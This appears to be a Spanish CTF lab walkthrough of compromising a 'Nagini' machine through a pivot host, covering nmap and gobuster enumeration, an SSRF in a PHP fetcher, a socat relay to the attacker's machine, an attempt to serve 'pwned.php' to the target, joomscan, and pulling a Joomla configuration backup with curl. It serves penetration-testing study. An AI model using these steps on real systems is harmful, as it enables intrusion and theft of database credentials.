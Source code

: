 [[10.10.0.4 (Aragog)]]

`#CSRF` `#HTTP3`
Hacemos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos agilizar la búsqueda mas si usamos un secuenciador junto con xargs
`seq 1 65535 | xargs -P 700 -I {} nmap -sT -Pn -p{} -open -T5 -n -v 10.10.0.5 | grep "tcp open"`

Navegaremos a la pagina web que nos muestra que esta levantada en el puerto `80`
Vemos información sobre la web con la herramienta con [[WHATWEB]]
`whatweb http://10.10.0.5/`
```python
http://10.10.0.5/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.0.5]
```

Vamos a hacer fuzzing sobre la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://10.10.0.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`
Este nos encontrara los siguientes ficheros
`index.html`
`/joomla`
`note.txt` con el siguiente contenido:
```txt
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

Esto nos indica que se esta usando `HTTP3` que es la tercera versión de HTTP utiliza un puerto UDP
Usaremos la herramienta de quiche con la tool de `./http3-client` como en esta caso no conseguía utilizarla seguí el siguiente paso del video en el que se descubre la ruta:
`/internalResourceFeTcher.php` así que accedemos a ella desde el navegador

Vemos que la URL esta en método get, así que usando la opción 
`?url=` podremos traer al navegador actual por ejemplo llamar a `http://localhost` nos muestra la web del localhost, al igual que podemos cargar la web de la maquina [[10.10.0.4 (Aragog)]] aunque no cargue la imagen. Esto acontece un SSRF (Server Side Request Forgery) y lo podemos usar para enumerar los puertos y servicios internos de la maquina.

Para poder tener conectividad con nuestra maquina atacante lo que haremos sera descargar `socat` y nos lo trasferiremos a la maquina intermedia [[192.168.1.23 (Aragog)]] [[10.10.0.4 (Aragog)]]
Le daremos permisos de ejecución y ejecutaremos la herramienta de la siguiente forma:
`./socat TCP-LISTEN:4343,fork TCP:192.168.1.19:80`
Estamos indicando que todo lo que se pida por el puerto 4343 lo envié a través de la ip de [[192.168.1.23 (Aragog)]] por el puerto 80

En nuestra maquina atacante levantaremos un servidor con python y desde la web de la maquina [[10.10.0.5(Nagini)]] en la url encontrada probamos a acceder a la maquina [[10.10.0.4 (Aragog)]] por el puerto 4343 que es el que le hemos indicado en socat

Ahora desde dentro de la url como tenemos levantado nuestro servidor de python y habilitado todo lo que es el pivoting y el renvió de paquetes intentamos acceder por la url a u8n archivo que creemos en nuestra maquina atacante que se llame `pwned.php` y ver si lo interpreta.

Como no lo interpreta, también encontramos el directorio `/joomla` así que navegamos a el. Usaremo0s la herramienta joomscan para hacer enumeración de vulnerabilidades.
`joomscan -u http://10.10.0.5/joomla/`

La respuesta de la ejecución de esta herramienta nos muestra que esta expuesta la interfaz del administrador `http://10.10.0.5/joomla/administrator/`

También nos encuentra un archivo .bak `http://10.10.0.5/joomla/configuration.php.bak`
Nos lo intentamos descargar para ver su contenido con: `curl -s -X GET http://10.10.0.5/joomla/configuration.php.bak > configuration.php`

Vemos que es un archivo de configuracion de la base de datos







